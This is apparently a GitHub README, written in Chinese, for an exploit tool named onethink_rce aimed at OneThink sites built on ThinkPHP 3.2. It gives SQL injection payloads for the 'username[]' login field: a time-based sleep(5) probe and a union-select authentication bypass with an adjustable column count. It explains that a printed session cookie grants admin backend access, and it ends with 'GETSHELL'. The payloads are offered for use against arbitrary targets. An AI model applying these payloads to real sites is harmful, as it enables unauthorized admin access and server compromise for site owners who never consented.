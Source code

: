 # onethink_rce


十一假期看到的文章https://forum.90sec.com/t/topic/464

原理其实还是p牛发的那个thinkphp3.2注入漏洞，于是又简单的分析了一下。

写了一下利用工具。


需要注意的地方：
1、url = "http://www.xxx.com"    不解释  
2、print(s.cookies)              如果登录成功，那么这个打印出来的cookie就有用，替换cookie即可进入后台
3、payload 中的 ('username[]','like 1)and 1 in (2) or sleep(5)#'),  为注入漏洞的延时检测。
               ('username[]','like 1)and 1 in (2) union select 1,2,"",4,5,6,7,8,9,10,11#'), 为绕过验证登录语句
               字段数默认为11，我也见过13的。大家自行修改。
               

GETSHELL
